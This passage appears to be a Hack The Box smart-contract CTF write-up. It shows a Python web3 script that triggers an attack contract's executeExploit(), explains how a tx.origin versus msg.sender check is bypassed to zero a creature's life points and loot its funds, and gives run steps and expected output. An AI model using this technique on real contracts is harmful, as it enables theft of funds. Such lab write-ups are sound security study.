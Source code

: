 ### Step 4: Execute the Exploit

Call `executeExploit()` from the deployed contract:

```python
attack_contract = w3.eth.contract(address=attack_contract_address, abi=abi)

nonce = w3.eth.get_transaction_count(YOUR_ADDRESS)
exploit_txn = attack_contract.functions.executeExploit().build_transaction({
    'from': YOUR_ADDRESS,
    'nonce': nonce,
    'gas': 500000,
    'gasPrice': w3.eth.gas_price
})

signed_exploit = w3.eth.account.sign_transaction(exploit_txn, PRIVATE_KEY)
exploit_hash = w3.eth.send_raw_transaction(signed_exploit.raw_transaction)
exploit_receipt = w3.eth.wait_for_transaction_receipt(exploit_hash)
```

Now:
- `tx.origin` = our EOA
- `msg.sender` = attack contract address
- `aggro` = our EOA
- `_isOffBalance()` returns `true`
- `aggro != msg.sender` returns `true`
- Damage is dealt! → lifePoints becomes 0

The contract then calls `loot()` and transfers the funds back to us.

---

## Running the Solution

1. **Spawn a new HTB instance**
2. **Update credentials** in `solution.py`:
   - `RPC_URL`
   - `PRIVATE_KEY`
   - `YOUR_ADDRESS`
   - `CREATURE_ADDRESS`
   - `FLAG_ENDPOINT`
3. **Run**:

```bash
python solution.py
```

### Expected Output

```
Connected to RPC
Initial attack tx: 0x...
Attack contract deployed at: 0x...
Exploit tx: 0x...
Life Points now: 0
Done!

Flag: HTB{...}
```
